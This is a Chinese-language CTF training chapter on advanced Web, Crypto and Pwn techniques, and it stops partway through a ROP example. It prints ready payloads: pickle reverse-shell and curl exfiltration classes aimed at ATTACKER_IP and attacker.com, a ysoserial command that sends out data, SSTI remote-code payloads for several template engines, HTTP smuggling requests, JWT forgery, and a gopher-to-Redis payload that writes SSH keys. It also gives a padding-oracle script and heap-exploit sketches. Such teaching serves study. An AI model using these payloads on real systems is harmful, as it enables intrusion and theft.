



## 八、高级CTF解题技巧

当基础的SQL注入、XSS、简单密码破解已经无法满足比赛需求时，高级CTF解题技巧就是区分普通选手和强队的分水岭。本节从Web、Crypto、Pwn、Misc、Reverse五大方向出发，系统梳理高频高难考点的原理、利用方法和实战技巧，并提供可直接复用的解题框架。

```mermaid
graph TD
    A["高级CTF解题技巧"] --> B["Web方向"]
    A --> C["Crypto方向"]
    A --> D["Pwn方向"]
    A --> E["Misc方向"]
    A --> F["Reverse方向"]

    B --> B1["反序列化漏洞"]
    B --> B2["SSTI模板注入"]
    B --> B3["HTTP请求走私"]
    B --> B4["JWT攻击"]
    B --> B5["SSRF高级利用"]

    C --> C1["RSA高级攻击"]
    C --> C2["Padding Oracle"]
    C --> C3["格基约减(Lattice)"]
    C --> C4["椭圆曲线(ECC)"]

    D --> D1["堆利用技术"]
    D --> D2["ROP进阶"]
    D --> D3["内核漏洞利用"]
    D --> D4["沙箱逃逸"]

    E --> E1["隐写术深入"]
    E --> E2["高级流量分析"]
    E --> E3["内存取证"]

    F --> F1["反混淆技术"]
    F --> F2["自动化逆向"]
    F --> F3["虚拟化/VM保护"]

    style A fill:#E91E63,stroke:#333,color:#fff
    style B fill:#2196F3,stroke:#333,color:#fff
    style C fill:#FF9800,stroke:#333,color:#fff
    style D fill:#f44336,stroke:#333,color:#fff
    style E fill:#4CAF50,stroke:#333,color:#fff
    style F fill:#9C27B0,stroke:#333,color:#fff
```



### 8.1 高级解题思维框架

在接触具体技术之前，建立正确的解题思维比记住某一个exploit更重要。高手和普通选手的核心区别不在于知道多少工具，而在于面对未知挑战时的分析路径。

**三步分析法：**

| 阶段 | 核心动作 | 产出 |
|------|----------|------|
| 信息收集 | 全面侦察目标，收集版本、配置、异常信息 | 攻击面清单 |
| 假设验证 | 基于收集的信息形成漏洞假设，逐个验证 | 可利用的漏洞入口 |
| 利用扩展 | 从单点漏洞扩展到完整exploit链 | Flag / 目标达成 |

**高级选手的解题习惯：**

1. **先看后做**：运行目标前先静态分析，`file`、`strings`、`xxd`、反汇编一个都不能少
2. **记录一切**：每个步骤的输入输出都要记录，很多flag藏在中间结果里
3. **版本敏感**：软件版本是关键线索——Apache 2.4.49有路径穿越，OpenSSL 1.0.x有Heartbleed
4. **关注异常**：报错信息、非常规响应、隐藏的目录/参数都是突破口
5. **放弃沉没成本**：一个方向卡住30分钟，果断换方向或换个思路

### 8.2 Web方向高级技巧

#### 8.2.1 反序列化漏洞利用

反序列化漏洞是CTF Web方向的高频考点，本质是应用程序将不可信的序列化数据直接还原为对象时，触发了对象内部的危险操作（如命令执行、文件操作）。

**核心原理：** 各语言的序列化机制允许在对象还原时自动调用特定的魔术方法（`__reduce__`、`__wakeup__`、`readObject`等）。攻击者精心构造序列化数据，使这些方法在还原时执行恶意操作。

**Python Pickle 反序列化：**

```python
import pickle
import os
import base64
import subprocess

# ===== 基础利用：执行命令 =====
class PickleExploit:
    """通过__reduce__方法在反序列化时执行任意命令"""
    def __reduce__(self):
        # __reduce__返回一个元组 (callable, args)
        # 反序列化时会调用 callable(*args)
        return (os.system, ('cat /flag.txt',))

payload = base64.b64encode(pickle.dumps(PickleExploit())).decode()
print(f"Payload: {payload}")

# ===== 进阶：反弹Shell =====
class ReverseShell:
    def __reduce__(self):
        return (os.system, (
            'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"',
        ))

# ===== 进阶：读取文件并外带 =====
class FileExfil:
    def __reduce__(self):
        cmd = "cat /flag.txt | curl -X POST -d @- http://attacker.com/collect"
        return (os.system, (cmd,))

# ===== 高级：绕过简单过滤（禁用os.system） =====
class BypassFilter:
    """当os.system被黑名单时，使用subprocess或其他替代方案"""
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (['cat', '/flag.txt'],))
```

**Java 反序列化：**

Java反序列化利用的核心是"利用链"（Gadget Chain）——在目标classpath中找到一系列可被串联的类，最终达到命令执行效果。

```text
# 常用工具：ysoserial
# 生成Commons Collections链payload
java -jar ysoserial.jar CommonsCollections1 "cat /flag.txt" | base64

# 生成Commons BeanUtils链
java -jar ysoserial.jar CommonsBeanutils1 "curl http://attacker.com/\$(cat /flag.txt | base64)"

# 常见利用链及其适用条件：
# CommonsCollections1-7  → 需要目标有commons-collections 3.x
# CommonsCollections7    → 不需要额外依赖，JDK自带
# CommonsBeanutils1      → 需要commons-beanutils
# Spring1/Spring2        → 需要Spring Framework
# Jdk7u21                → JDK内置链，无需第三方库
```

**PHP 反序列化：**

```php
<?php
// PHP反序列化的魔法方法调用链：
// __wakeup()     → unserialize()触发时调用
// __destruct()   → 对象销毁时调用
// __toString()   → 对象被当作字符串时调用
// __call()       → 调用不存在的方法时触发

// 实战中的利用链构造示例
class FileHandler {
    public $filename;
    public function __destruct() {
        // 危险操作：析构时读取文件
        echo file_get_contents($this->filename);
    }
}

// 构造序列化payload
// O:11:"FileHandler":1:{s:8:"filename";s:10:"/flag.txt";}
// 反序列化时，FileHandler对象被创建
// 脚本结束时自动析构，读取/flag.txt
?>
```

**反序列化防御绕过策略：**

| 过滤手段 | 绕过方法 | 说明 |
|----------|----------|------|
| 禁用`os.system` | 使用`subprocess`、`eval`、`exec` | Python有多种命令执行途径 |
| 黑名单关键词 | 拼接、编码、base64 | `__import__('o'+'s').system(...)` |
| 类型检查 | 伪造类名 | 构造同名类绕过`isinstance`检查 |
| 签名验证 | 使用已知密钥 | 部分框架默认密钥可预测 |

#### 8.2.2 服务端模板注入（SSTI）

SSTI的本质是用户输入被直接拼接到模板引擎的渲染上下文中，导致攻击者可以执行模板引擎的原生表达式。

**判断SSTI的方法：**

```text
# 1. 数学表达式测试（最可靠）
{{7*7}}        → 输出49说明存在Jinja2/Twig
${7*7}         → 输出49说明存在Freemarker/Thymeleaf
#{7*7}         → 输出49说明存在Ruby ERB

# 2. 差异响应测试
{{7*'7'}}      → Jinja2输出7777777，Twig输出49
{{''.__class__}} → Python模板特有

# 3. 错误信息泄露
{{undefined_variable}} → 错误信息中可能暴露模板引擎类型
```

**各模板引擎利用Payload：**

```python
# ===== Jinja2 (Python Flask) - 最常见 =====
# 获取os模块并执行命令
{{config.__class__.__init__.__globals__['os'].popen('cat /flag.txt').read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

# 通过MRO链访问内建类
{{''.__class__.__mro__[1].__subclasses__()}}
# 列出所有子类，找到os._wrap_close或其他有用的类
{{''.__class__.__mro__[1].__subclasses__()[X].__init__.__globals__['popen']('id').read()}}

# 使用cycler/joiner等内置对象
{{cycler.__init__.__globals__.os.popen('id').read()}}

# ===== Twig (PHP) =====
# Twig 1.x 可直接执行PHP
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag.txt")}}

# ===== Freemarker (Java) =====
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("cat /flag.txt")}

# ===== Smarty (PHP) =====
{php}echo `cat /flag.txt`;{/php}

# ===== Velocity (Java) =====
#set($x="")#set($rt=$x.getClass().forName("java.lang.Runtime"))
#set($chr=$x.getClass().forName("java.lang.Character"))
#set($str=$x.getClass().forName("java.lang.String"))
$rt.getRuntime().exec("cat /flag.txt")
```

**SSTI自动化检测与利用工具：**

| 工具 | 适用场景 | 命令 |
|------|----------|------|
| Tplmap | 自动检测和利用多种模板引擎 | `python tplmap.py -u 'http://target/?name=test'` |
| SSTImap | Tplmap的增强版，支持更多模板引擎 | `python sstimap.py -u 'http://target/?name=test'` |
| Jinja2 Sandbox Escape | Jinja2沙箱绕过研究 | 手动构造 |

#### 8.2.3 HTTP请求走私

HTTP请求走私利用的是反向代理服务器与后端服务器对HTTP请求边界解析不一致的问题。攻击者构造特殊请求，使代理服务器和后端服务器"看到"不同的请求内容，从而实现请求走私。

**四种主要类型：**

```yaml
# ===== CL.TE（Content-Length优先于Transfer-Encoding）=====
# 代理使用CL（13字节），后端使用TE（chunked）
# 结果：后端看到两个请求

POST / HTTP/1.1
Host: example.com
Content-Length: 6
Transfer-Encoding: chunked

0

X

# 后端实际收到的第二个请求是：
# XPOST / HTTP/1.1 ...

# ===== TE.CL（Transfer-Encoding优先于Content-Length）=====
# 代理使用TE，后端使用CL（3字节）
# 结果：SMUGGLED被当作下一个请求的一部分

POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0

# ===== TE.TE（两者都支持TE，但解析方式不同）=====
# 通过混淆Transfer-Encoding头部触发不一致
# 例如：Transfer-Encoding: chunked
#       Transfer-Encoding: x
#       一个被忽略，一个被解析

Transfer-Encoding: chunked
Transfer-encoding: cow

# ===== CL.CL（两个CL值不一致）=====
# 部分服务器取第一个CL，部分取第二个
Content-Length: 6
Content-Length: 7
```

**实战利用场景：**

1. **绕过WAF**：将恶意请求走私到后端，WAF看到的是无害请求
2. **请求缓存投毒**：走私一个虚假响应，污染代理缓存
3. **会话劫持**：将其他用户的请求与走私请求关联，获取其session

**检测方法：**

```python
import requests

def detect_smuggling(host):
    """检测目标是否存在HTTP走私漏洞"""
    # CL.TE检测
    payload_cl_te = (
        "POST / HTTP/1.1\r\n"
        f"Host: {host}\r\n"
        "Content-Length: 6\r\n"
        "Transfer-Encoding: chunked\r\n\r\n"
        "0\r\n\r\nX"
    )
    
    # TE.CL检测
    payload_te_cl = (
        "POST / HTTP/1.1\r\n"
        f"Host: {host}\r\n"
        "Content-Length: 4\r\n"
        "Transfer-Encoding: chunked\r\n\r\n"
        "8\r\n"
        "SMUGGLED\r\n"
        "0\r\n\r\n"
    )
    
    resp = requests.post(host, data=payload_cl_te)
    # 观察响应差异判断是否存在不一致
    return resp.status_code, resp.headers, resp.text
```

#### 8.2.4 JWT攻击

JSON Web Token（JWT）在CTF中频繁出现，其安全问题主要集中在算法层面和配置层面。

**JWT结构解析：**

```text
# JWT = Header.Payload.Signature
# eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.XXXXXXXX

# Header: {"alg": "HS256", "typ": "JWT"}
# Payload: {"user": "admin", "exp": 9999999999}
# Signature: HMAC-SHA256(base64(header) + "." + base64(payload), secret)
```

**常见攻击手法：**

| 攻击类型 | 原理 | 利用方法 |
|----------|------|----------|
| None算法绕过 | 将alg设为none，跳过签名验证 | 修改header为`{"alg":"none"}`，删除签名部分 |
| 密钥爆破 | 使用弱密钥签名 | hashcat -a 0 -m 16500 jwt.txt wordlist.txt |
| 密钥混淆(RS256→HS256) | 用公钥作为HMAC密钥签名 | 将alg从RS256改为HS256，用公钥文件签名 |
| JKU/JWK注入 | 伪造密钥URL | 修改header的jku指向攻击者控制的服务器 |
| 爆破claim | 篡改payload中的权限字段 | 修改user/role等字段后重新签名 |

```python
import jwt
import hashlib

# ===== None算法绕过 =====
# 伪代码演示（实际库可能禁止none算法）
header = {"alg": "none", "typ": "JWT"}
payload = {"user": "admin", "role": "admin"}

# 手动构造：base64(header) + "." + base64(payload) + "."

# ===== RS256→HS256密钥混淆 =====
# 读取服务器的公钥文件
with open("public_key.pem", "rb") as f:
    public_key = f.read()

# 将alg改为HS256，用公钥内容作为HMAC密钥签名
token = jwt.encode(
    {"user": "admin", "role": "admin"},
    key=public_key,
    algorithm="HS256"
)

# ===== 密钥爆破 =====
# 使用hashcat
# hashcat -a 0 -m 16500 jwt.txt rockyou.txt
# 或使用john
# jwt2john jwt.txt > jwt_hash.txt
# john jwt_hash.txt --wordlist=rockyou.txt
```

#### 8.2.5 SSRF高级利用

SSRF（服务端请求伪造）在CTF中常作为内网渗透的跳板。

**高级利用技巧：**

```text
# ===== 协议利用 =====
file:///etc/passwd                    # 读取本地文件
dict://127.0.0.1:6379/info            # 探测Redis
gopher://127.0.0.1:6379/_*3%0d%0a... # Gopher协议攻击内网服务

# ===== 绕过常见过滤 =====
# 1. IP地址变形
http://0x7f000001/                    # 十六进制
http://2130706433/                    # 十进制整数
http://0177.0.0.1/                    # 八进制
http://127.1/                         # 省略写法

# 2. DNS重绑定
# 注册一个域名，第一次解析到合法IP（通过检测），第二次解析到内网IP

# 3. URL解析差异
http://attacker.com@127.0.0.1/       # 用户信息欺骗
http://127.0.0.1%2523@attacker.com/   # URL编码绕过
```

**利用SSRF攻击内网Redis实现RCE：**

```text
# Gopher协议构造Redis命令
# 发送SSH公钥到目标Redis
gopher://127.0.0.1:6379/_*3%0d%0a
$3%0d%0a
set%0d%0a
$1%0d%0a
1%0d%0a
$34%0d%0a
%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a
%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0d%0a
*4%0d%0a
$6%0d%0a
config%0d%0a
$3%0d%0a
set%0d%0a
$3%0d%0a
dir%0d%0a
$16%0d%0a
/root/.ssh/%0d%0a
*4%0d%0a
$6%0d%0a
config%0d%0a
$3%0d%0a
set%0d%0a
$10%0d%0a
dbfilename%0d%0a
$15%0d%0a
authorized_keys%0d%0a
*1%0d%0a
$4%0d%0a
save%0d%0a
```

### 8.3 Crypto方向高级技巧

#### 8.3.1 RSA高级攻击

RSA是CTF Crypto方向的核心考点。攻击的核心思路是：RSA的安全性依赖于大数分解的困难性，而各种攻击本质上都是利用参数选择不当来降低分解难度。

**RSA攻击分类全景：**

| 攻击类型 | 触发条件 | 核心原理 | 工具 |
|----------|----------|----------|------|
| 小公钥指数攻击 | e很小（如3） | e次根即可恢复明文 | 手动计算/脚本 |
| 共模攻击 | 同一n，不同e加密同一m | 扩展欧几里得 | 手动计算 |
| Wiener攻击 | d很小（d < n^0.25） | 连分数逼近e/n | RsaCtfTool |
| Pollard p-1 | p-1因子分解结果光滑 | B-smooth数分解 | SageMath |
| Boneh-Durfee | d < n^0.292 | 格基约减 | SageMath |
| Coppersmith | 已知明文高位 | 小根求解 | SageMath |
| Bleichenbacher | PKCS#1 v1.5填充 | 自适应选择密文 | 手动脚本 |

```python
# ===== Wiener攻击（小私钥指数）=====
def wiener_attack(e, n):
    """
    当私钥d较小时（d < n^0.25），可通过连分数逼近恢复d
    原理：e/n ≈ k/d，连分数展开e/n可得到k/d的逼近序列
    """
    from fractions import Fraction
    
    def continued_fraction(numerator, denominator):
        """计算连分数展开"""
        cf = []
        while denominator:
            cf.append(numerator // denominator)
            numerator, denominator = denominator, numerator % denominator
        return cf
    
    def convergents(cf):
        """计算连分数的渐近分数"""
        convs = []
        h_prev, h_curr = 0, 1
        k_prev, k_curr = 1, 0
        for a in cf:
            h_prev, h_curr = h_curr, a * h_curr + h_prev
            k_prev, k_curr = k_curr, a * k_curr + k_prev
            convs.append((h_curr, k_curr))
        return convs
    
    cf = continued_fraction(e, n)
    convs = convergents(cf)
    
    for k, d_candidate in convs:
        if k == 0:
            continue
        # 验证：通过(k, d)反推phi(n)
        phi = (e * d_candidate - 1) // k
        # 二次方程求解p和q：x^2 - (n-phi+1)x + n = 0
        b = n - phi + 1
        discriminant = b * b - 4 * n
        if discriminant >= 0:
            sqrt_disc = int(discriminant ** 0.5)
            if sqrt_disc * sqrt_disc == discriminant:
                p = (b + sqrt_disc) // 2
                q = (b - sqrt_disc) // 2
                if p * q == n:
                    return d_candidate
    return None

# ===== 共模攻击 =====
def common_modulus_attack(e1, e2, n, c1, c2):
    """
    同一明文m用同一n的不同公钥e1,e2加密
    利用扩展欧几里得找到 s1, s2 使得 s1*e1 + s2*e2 = 1
    则 c1^s1 * c2^s2 ≡ m (mod n)
    """
    from math import gcd
    
    def extended_gcd(a, b):
        if a == 0:
            return b, 0, 1
        g, x, y = extended_gcd(b % a, a)
        return g, y - (b // a) * x, x
    
    g, s1, s2 = extended_gcd(e1, e2)
    
    # 处理负指数
    if s1 < 0:
        c1 = pow(c1, -1, n)  # 模逆
        s1 = -s1
    if s2 < 0:
        c2 = pow(c2, -1, n)
        s2 = -s2
    
    m = (pow(c1, s1, n) * pow(c2, s2, n)) % n
    return m

# ===== Pollard p-1 分解 =====
def pollard_p1(n, B=100000):
    """
    当p-1是B-smooth数时有效（即p-1的所有素因子都不超过B）
    适用于Fermat素数、Safe素数等特殊情况
    """
    from math import gcd
    from sympy import isprime, nextprime
    
    a = 2
    for j in range(2, B + 1):
        a = pow(a, j, n)
        p = gcd(a - 1, n)
        if 1 < p < n:
            return p, n // p
    return None, None
```

**使用RsaCtfTool自动化攻击：**

```bash
# RsaCtfTool能自动尝试多种攻击
# 安装
git clone https://github.com/Ganapati/RsaCtfTool.git
cd RsaCtfTool && python3 RsaCtfTool.py --help

# 基本用法
python3 RsaCtfTool.py --publickey pub.pem --private

# 已知明文攻击
python3 RsaCtfTool.py --publickey pub.pem --uncipherfile cipher.txt --known "known_plaintext"

# 尝试所有攻击
python3 RsaCtfTool.py --publickey pub.pem --uncipherfile cipher.txt --attack all
```

#### 8.3.2 Padding Oracle攻击

Padding Oracle攻击利用的是服务端对CBC模式密文填充是否正确的不同响应（正常响应 vs 错误响应），逐字节还原明文。

**原理图解：**

```text
CBC解密过程：
密文块C1 → [AES解密] → 中间值I1 → ⊕ IV → 明文P1

关键点：中间值I1是固定不变的（只取决于密文块C1和密钥）
攻击者可以通过修改前一个密文块来控制XOR的输入

构造伪造前缀P'[n] = I1[n] ⊕ desired_padding[n]
当oracle返回"填充正确"时：
  I1[n] ⊕ P'[n] = desired_padding[n]（合法填充值）
  I1[n] = P'[n] ⊕ desired_padding[n]（可推算中间值）
  原始明文P1[n] = I1[n] ⊕ C1[n]（可恢复明文）
```

```python
import requests
import binascii

def padding_oracle_attack(ciphertext_hex, oracle_url):
    """
    Padding Oracle攻击完整实现
    :param ciphertext_hex: 目标密文的十六进制字符串
    :param oracle_url: 填充验证接口URL
    :return: 解密后的明文
    """
    block_size = 16
    ciphertext = binascii.unhexlify(ciphertext_hex)
    blocks = [ciphertext[i:i+block_size] 
              for i in range(0, len(ciphertext), block_size)]
    
    plaintext = b''
    
    # 从最后一个密文块开始向前解密
    for block_idx in range(len(blocks) - 1, 0, -1):
        intermediate = bytearray(block_size)
        decrypted_block = bytearray(block_size)
        
        # 逐字节从后往前恢复
        for byte_pos in range(block_size - 1, -1, -1):
            padding_value = block_size - byte_pos
            
            # 构造已知字节的XOR值
            prefix = bytearray(block_size)
            for i in range(byte_pos + 1, block_size):
                prefix[i] = intermediate[i] ^ padding_value
            
            # 遍历0-255寻找正确值
            found = False
            for guess in range(256):
                prefix[byte_pos] = guess
                test_ct = bytes(prefix) + blocks[block_idx]
                
                resp = requests.post(
                    oracle_url,
                    data={'ciphertext': binascii.hexlify(test_ct).decode()}
                )
                
                # 判断填充是否正确（根据响应内容/状态码）
                if is_valid_padding(resp):
                    intermediate[byte_pos] = guess ^ padding_value
                    decrypted_block[byte_pos] = (
                        intermediate[byte_pos] ^ blocks[block_idx - 1][byte_pos]
                    )
                    found = True
                    break
            
            if not found:
                print(f"[!] Failed at block {block_idx}, byte {byte_pos}")
                break
        
        plaintext = bytes(decrypted_block) + plaintext
        print(f"[+] Block {block_idx} decrypted: {decrypted_block}")
    
    # 移除PKCS7填充
    pad_len = plaintext[-1]
    if all(b == pad_len for b in plaintext[-pad_len:]):
        plaintext = plaintext[:-pad_len]
    
    return plaintext

def is_valid_padding(response):
    """根据响应判断填充是否正确——需根据实际题目调整"""
    # 方式1：状态码判断
    if response.status_code == 200:
        return True
    # 方式2：响应内容判断
    if 'padding' not in response.text.lower() or 'error' not in response.text.lower():
        return True
    return False
```

#### 8.3.3 格基约减（Lattice）基础

格密码分析是CTF Crypto方向的高级内容，但掌握基础概念后能解决大量难题。

**核心思想：** 将密码学问题转化为格上的最短向量问题（SVP）或最近向量问题（CVP），然后用LLL/BKZ算法求解。

```python
from sympy import Matrix

# ===== LLL格基约减基础示例 =====
def lattice_example():
    """
    经典例子：已知Rabin加密中 p*q = n，且 |p - q| 较小
    构造格基矩阵，用LLL约减找到p和q
    """
    n = 998001  # 示例：实际上会很大
    
    # 构造格基矩阵
    # 关键：设计一个好的格使得短向量就是我们想要的解
    B = Matrix([
        [1, n],
        [0, 1]
    ])
    
    # LLL约减
    L = B.LLL()
    print("LLL约减结果:")
    print(L)
    
    # 约减后的短向量通常包含p和q的信息
    return L

# ===== Coppersmith方法在RSA中的应用 =====
# SageMath代码（需要在Sage中运行）
# 已知明文高位时恢复完整明文
# var('x')
# n = 0xdeadbeef...
# e = 3
# m_high = 0x1234... # 已知的高位部分
# P.<x> = PolynomialRing(Zmod(n))
# f = (m_high + x)^e - c
# roots = f.small_roots(X=2^k, beta=0.4)  # k是未知位数
```

**Lattice攻击适用场景：**

| 问题类型 | 格构造方法 | 复杂度 |
|----------|-----------|--------|
| Hidden Number Problem | 基向量编码已知关系 | LLL多项式时间 |
| Knapsack密码 | 超递增序列约减 | LLL多项式时间 |
| RSA已知高位 | Coppersmith多项式根 | 亚指数 |
| LCG状态恢复 | 连续输出构建格 | LLL多项式时间 |
| NTRU相关攻击 | 格最短向量 | BKZ可能需要 |

#### 8.3.4 椭圆曲线（ECC）攻击

```python
# ===== MOV攻击（将ECDLP映射到有限域）=====
# 当嵌入度k较小时，可将椭圆曲线离散对数映射到乘法群
# 使用Weil/Tate配对实现

# ===== Smart攻击（异常曲线）=====
def smart_attack(E, G, Q, p):
    """
    当椭圆曲线阶等于p（异常曲线）时
    将ECDLP转化为Fp上的加法群DLP（容易求解）
    """
    # 在p-adic域中计算对数
    # E.has_order(p) → 可以使用Smart攻击
    from sage.libs.eclib import ecm
    # 实际使用：
    # lift = E.lift_x(Q.xy()[0])
    # diff = lift - G.lift_x(G.xy()[0])
    # return diff.xy()[0] / diff.xy()[1] % p
    pass

# ===== Pohlig-Hellman（光滑阶曲线）=====
def pohlig_hellman(E, G, Q, n):
    """
    当曲线阶n可分解为小素因子的乘积时
    分别在每个小子群中求解DLP，然后CRT合并
    """
    from sympy import factorint
    factors = factorint(n)
    
    # 对每个素因子p^e求解子问题
    # ...
    # 使用CRT合并所有子解
    pass
```

### 8.4 Pwn方向高级技巧

#### 8.4.1 堆利用技术体系

堆利用是Pwn方向最核心也最难的内容。现代glibc（2.26+）引入了tcache，改变了整个堆利用的思路。

**Glibc堆管理器数据结构演进：**



**核心漏洞类型与利用手法：**

| 漏洞类型 | 描述 | 经典利用 |
|----------|------|----------|
| Heap Overflow | 超出chunk边界写入 | 覆写相邻chunk的size/fd/bk |
| Use-After-Free (UAF) | 释放后继续使用 | 控制free后的fd/bk指针 |
| Double Free | 同一块释放两次 | 在free list中插入伪造chunk |
| Off-By-One | 多写一个字节 | 覆写相邻chunk的in_use位 |
| Heap Var | chunk size不在链表范围内 | 任意地址写 |

```python
from pwn import *

# ===== Tcache Poisoning (glibc 2.26+) =====
def tcache_poisoning(target_addr, payload):
    """
    最简单的现代堆利用方法
    前提：存在UAF或Double Free漏洞
    步骤：分配→释放→修改fd→再次分配到目标地址
    """
    # 1. 分配两个相同大小的chunk
    chunk_a = malloc(0x20)
    chunk_b = malloc(0x20)
    
    # 2. 释放chunk_a和chunk_b进入tcache
    free(chunk_a)
    free(chunk_b)  # tcache: b → a
    
    # 3. 通过UAF修改chunk_a的fd指针（tcache_next）
    # 由于tcache不检查fd指向的位置是否合法
    write(chunk_a, p64(target_addr))  # tcache: b → a → target
    
    # 4. 第一次分配得到chunk_b
    malloc(0x20)
    # 5. 第二次分配得到target_addr
    malloc(0x20)  # 返回target_addr
    
    # 6. 现在可以向target_addr写入任意数据
    write(target_addr, payload)

# ===== Fastbin Attack =====
def fastbin_attack(target_addr):
    """
    在glibc 2.25及之前更常用
    需要：两个同size fastbin chunk + 溢出
    注意：目标地址处需要有一个合法的size字段（fastbin安全检查）
    """
    # 1. 分配三个chunk（防止合并）
    chunk_a = malloc(0x60)
    chunk_b = malloc(0x60)
    malloc(0x60)  # 防止与top chunk合并
    
    # 2. 释放chunk_a和chunk_b到fastbin
    free(chunk_a)
    free(chunk_b)  # fastbin: b → a
    
    # 3. 溢出修改chunk_b的fd为target_addr
    # chunk_b的fd字段在chunk_b + 0x10处
    overflow(b'A' * 0x60 + p64(0) + p64(0x71) + p64(target_addr))
    
    # 4. 第一次malloc得到chunk_b
    malloc(0x60)
    # 5. 第二次malloc得到target_addr（注意：target处需要伪造size 0x71）
    malloc(0x60)

# ===== House of Force =====
def house_of_force(target_addr, heap_base):
    """
    通过覆写top chunk的size为极大值，
    计算偏移后malloc到任意地址
    前提：能溢出到top chunk的size字段
    """
    # 1. 覆写top chunk size为0xffffffffffffffff
    overflow(b'A' * offset_to_top_chunk + p64(0) + p64(0xffffffffffffffff))
    
    # 2. 计算需要malloc的大小
    distance = target_addr - heap_base - 0x20  # 减去chunk header
    malloc_size = distance - 0x10  # 减去分配时的开销
    
    # 3. malloc指定大小，下一次malloc将返回target_addr
    malloc(malloc_size)
    result = malloc(0x10)  # 这个chunk的用户数据区在target_addr

# ===== Unsortedbin Attack =====
def unsortedbin_attack(target_addr):
    """
    利用unsorted bin的bk指针写入largebin地址
    在__intlibc_malloc中：bck = victim->bk; bck->fd = victim
    通过控制victim->bk可向target_addr写入largebin的地址
    """
    # 1. 分配并释放chunk到unsorted bin
    chunk = malloc(0x90)  # > fastbin最大值
    malloc(0x100)  # 防止与top chunk合并
    free(chunk)
    
    # 2. 溢出修改chunk的bk指针
    overflow(b'A' * 0x90 + p64(0) + p64(0x91) + p64(0) + p64(target_addr - 0x10))
    
    # 3. 触发malloc（分配一个不同大小的chunk会触发unsortedbin整理）
    malloc(0x100)
    # 此时target_addr处被写入了一个libc地址
```

#### 8.4.2 ROP进阶

```python
from pwn import *

# ===== ret2csu（通用gadget利用）=====
def ret2csu(func_addr, arg1, arg2, arg3, rbp_addr):
    """
    利用__libc_csu_init中的通用gadget
    即使没有合适的gadget也能构造参数传递
    适用于几乎所有动态链接的ELF程序
    """
    # gadget1: pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
    pop_csu = 0x4005a0  # 需要根据实际二进制确定
    
